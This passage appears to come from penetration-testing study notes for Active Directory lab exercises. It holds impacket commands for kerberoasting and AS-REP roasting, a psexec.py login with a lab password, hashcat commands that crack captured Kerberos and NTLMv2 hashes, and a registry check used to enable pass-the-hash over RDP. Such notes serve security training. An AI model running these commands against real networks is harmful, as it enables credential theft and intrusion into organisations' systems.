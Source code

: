 perform a kerberoasting attack with the `-request` flag.

```bash
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/htb-student -outputfile TGS_hash
```

Connect to the target domain using **psexec.py**

```bash
psexec.py FREIGHTLOGISTICS.LOCAL/sapsso:pabloPICASSO@ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
```


## Do not require Kerberos preauthentication 
I a object in AD have this flag means we can utilize the [**GetNPUsers**.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) script to ask **TGS** ticket for users that have **Do not require Kerberos preauthentication** set.

```bash
GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.129.211.144 -no-pass -format hashcat
```
# Hashcat

### NTLMv2
```
sudo hashcat -m 5600 smb_pwd.txt /usr/share/wordlists/rockyou.txt
```
### TGS Kerberos Ticker

```bash
sudo hashcat -m 13100 SAPService_tgs /usr/share/wordlists/rockyou.txt
```


# Windows Lateral Movement
## Restricted Admin Mode
Restricted Admin Mode is a security feature introduced by Microsoft to mitigate the risk of credential theft over RDP connections. When enabled, it performs a network logon rather than an interactive logon, preventing the caching of credentials on the remote system. This mode only applies to administrators, so it cannot be used when you log on to a remote computer with a non-admin account.

Although this mode prevents the caching of credentials, if enabled, it allows the execution of `Pass the Hash` or `Pass the Ticket` for lateral movement.

To confirm if `Restricted Admin Mode` is enabled, we can query the following registry key:
```cmd
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin
```
The value of `DisableRestrictedAdmin` indicates the status of `Restricted Admin Mode`:

- If the value is `0`, `Restricted Admin Mode` is enabled.
- If the value is `1`, `Restricted Admin Mode` is disabled.
